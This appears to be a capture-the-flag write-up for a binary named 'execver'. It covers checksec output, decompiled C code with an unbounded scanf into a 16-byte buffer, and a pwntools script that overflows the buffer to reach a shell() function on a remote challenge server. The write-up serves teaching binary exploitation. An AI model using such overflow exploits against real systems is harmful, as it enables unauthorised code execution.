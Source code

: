 # Execver

##  Checksec
```sh
❯ checksec execver
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
```

## Reverse Analysis

```c
int main(void)

{
  int check;
  char input [16];
  char vuln_buf [16];
  
  scanf("%[^A-Za-z0-9_]",vuln_buf);
  scanf("%16s",input);
  check = strcmp(input,"shellisntthatcheap");
  if (check == 0) {
    shell();
  }
  return 0;
}
```

## Vulnerability

The vulnerability in this code is a buffer overflow. 
The `scanf` function reads user input into the `vuln_buf` array without proper bounds checking, 
allowing an attacker to overflow the buffer and potentially overwrite adjacent memory, 
including the return address of the function. This can lead to arbitrary code execution if the attacker can control the input.

## Exploit

```python
#!/usr/bin/python
from pwn import *

context.arch = "amd64"
r = remote("124.16.75.117", 51002)
shell_addr = 0x004005B6
buf_len = 16
rbp_len = 8
r.sendline(b"+" * (buf_len + rbp_len) + p64(shell_addr))
r.interactive()
```

